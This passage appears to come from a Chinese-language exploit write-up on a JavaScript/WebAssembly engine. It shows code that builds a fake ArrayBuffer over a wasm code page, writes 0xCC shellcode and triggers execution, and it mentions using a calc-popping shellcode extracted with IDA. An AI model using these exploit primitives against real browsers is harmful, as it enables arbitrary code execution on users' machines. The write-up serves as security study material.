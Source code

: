 ```javascript
instruction_ptr = ftoi(instruction_ptr_reader[0]);
console.log(instruction_ptr.toString(16));

shellcode_zone = new Uint8Array(fake_array_buffer(instruction_ptr, 1));
shellcode_zone[0] = 0xcc;

wasmInstance.exports.main()
```

成功执行到0xCC，触发中断。

![](</assets/images/Pasted image 20220224014552.png>)

从 [github](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode) 找了一个弹计算器的shellcode, 把 c 代码部分编译成 exe，然后后用
ida 提取出 shellcode。
